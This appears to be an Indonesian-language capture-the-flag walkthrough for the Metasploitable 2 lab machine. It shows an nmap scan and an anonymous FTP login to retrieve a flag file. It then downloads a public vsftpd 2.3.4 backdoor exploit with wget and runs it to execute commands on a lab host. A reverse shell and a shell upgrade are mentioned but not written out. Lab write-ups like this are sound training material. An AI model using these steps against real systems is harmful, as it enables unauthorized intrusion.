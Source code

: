 # Metasploitable 2

## NMAP Scan
```
nmap -sC -sV <ip_target>
```
> -sC = Menjalankan default enumeration script
-sV = Mengecek versi dari setiap service yang up

Dari hasil NMAP ditemukan berbagai macam port yang open. Mengacu pada Metode Uji Ringkas, kita akan prioritaskan service yang memiliki akses langsung ke server, dalam hal ini terdapat FTP pada Port 21.

## FTP Anonymous login
Dari hasil scan ditemukan terdapat FTP service running pada port 21, dengan Anonymous login allowed. Didalam FTP tersebut terdapat file check_me.txt, maka kita coba untuk download file tersebut.
```
$ sudo nmap -sC -sV 10.0.2.4
.
.
.
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              20 Jun 26 16:02 check_me.txt
| ftp-syst:
|   STAT:
.
.

```
```
ftp <ip_target>
Username = Anonymous
Password = <Bebas, silahkan langsung di enter saja>
```

Untuk melist file di dalam FTP, gunakan command ls
```
ls
```

Kemudian download file check_me.txt menggunakan command get
```
get check_me.txt
exit
```

Kemudian baca file check_me.txt tersebut. Flag dapat disubmit ke platform ctf di https://104.198.70.58

## VSFTPD Exploit
Mengacu kembali kepada metode uji ringkas, setelah mengecek komponen utama "Configuration" dengan login ke FTP Anonymous login, selanjutnya kita lakukan uji pada komponen "Outdated Version".

Kita ketahui, dari hasil NMAP, versi FTP yang digunakan adalah VSFTPD 2.3.4 . Selanjutnya kita coba lakukan googling untuk mencari adanya kerentanan dan public exploit versi vsftpd tersebut.

```
Googling : VSFTPD 2.3.4 Exploit
```
Source utama yang kita cari adalah pada exploit-db.com dan github. Pertama, kita temukan eksploit pada exploit-db, namun exploit tersebut belum verified, sehingga ada kemungkinan exploit tersebut tidak berjalan sebagaimana mestinya. Selanjutnya, kita temukan exploit pada github milik ahervias77. Selanjutnya kita download exploit tersebut.

```
wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py
```

Next, kita coba jalankan exploitnya

```
python3 vsftpd_234_exploit.py
```
Terlihat cara penggunaan dari exploit tersebut adalah :
```
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
```
Kemudian kita exploit :
```
python3 vsftpd_234_exploit.py 10.0.2.4 21 whoami
```
Berhasil!

Selanjutnya kita establish reverse shell (Cek Cheatsheet)

Upgrade ke interactive shell (Cek Cheat Sheet)

Ambil flag

Selesai!
